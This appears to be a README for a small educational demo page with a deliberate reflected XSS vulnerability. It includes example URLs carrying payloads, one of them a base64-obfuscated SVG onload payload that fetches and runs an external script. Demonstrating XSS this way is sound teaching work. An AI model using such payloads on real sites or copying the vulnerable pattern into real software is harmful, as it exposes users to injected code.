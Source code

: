 # XSS-Demo

This is a simple page with some example content (borrowed from W3Schools), that has a deliberate Cross Site Scripting vulnerability. It reflects the URL down into HTML.

The barebones page can be seen using rawgit at: https://rawgit.com/sdclibbery/XSS-Demo/master/index.html

For example: https://rawgit.com/sdclibbery/XSS-Demo/master/index.html?%3Cscript%3Ealert(1)%3C/script%3E

Or more fun: https://rawgit.com/sdclibbery/XSS-Demo/master/index.html?%3Csvg/onload=eval(atob(%60JC5nZXRTY3JpcHQoJ2h0dHBzOi8vZGluaXNjcnV6LmdpdGh1Yi5pby9YU1MtUG9jcy9wb2NzL2RhbmNlLXhzcy5qcycp%60))%3E
(With thanks to Dinis Cruz http://blog.diniscruz.com/ for the payload :-)
